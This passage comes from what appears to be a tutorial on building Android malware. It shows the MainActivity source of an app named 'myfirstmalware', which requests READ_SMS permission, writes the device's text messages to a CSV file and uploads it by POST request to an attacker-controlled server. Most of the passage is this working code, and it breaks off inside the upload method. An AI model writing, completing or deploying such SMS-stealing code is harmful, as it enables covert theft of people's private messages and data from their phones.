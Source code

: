 ```java
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
```

We will not be going through this code as we did for the previous method. 

All we are doing here is uploading our csv file containing all the text messages on the device through a POST request to an attacker-controlled server. 

As we mentioned earlier, we can do any number of things to exfiltrate the data.

Our full code for our Main Activity will look like this:

```java
package com.example.myfirstmalware;

import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;
import androidx.core.content.ContextCompat;

import android.content.pm.PackageManager;
import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.os.Environment;
import android.os.StrictMode;
import android.provider.Telephony;
import android.util.Log;

import android.Manifest;

import java.io.File;
import java.io.FileWriter;
import java.io.BufferedReader;
import java.io.DataOutputStream;
import java.io.InputStreamReader;
import java.net.HttpURLConnection;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.URL;


public class MainActivity extends AppCompatActivity {
    String smsFile = "SMS.csv";
    //String storage_path = getApplicationInfo().dataDir + File.separator + smsFile;
    String storage_path = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS).toString() + File.separator + smsFile;

    String[] permission = {Manifest.permission.READ_SMS};
    protected void uploadFile(String serverUrl, String filePath) {
        try {
            // Create a URL object with the server endpoint
            URL url = new URL(serverUrl);

            // Open a connection to the server
            HttpURLConnection connection = (HttpURLConnection) url.openConnection();

            // Set the request method to POST
            connection.setRequestMethod("POST");

            // Enable input/output streams for sending/receiving data
            connection.setDoInput(true);
            connection.setDoOutput(true);
```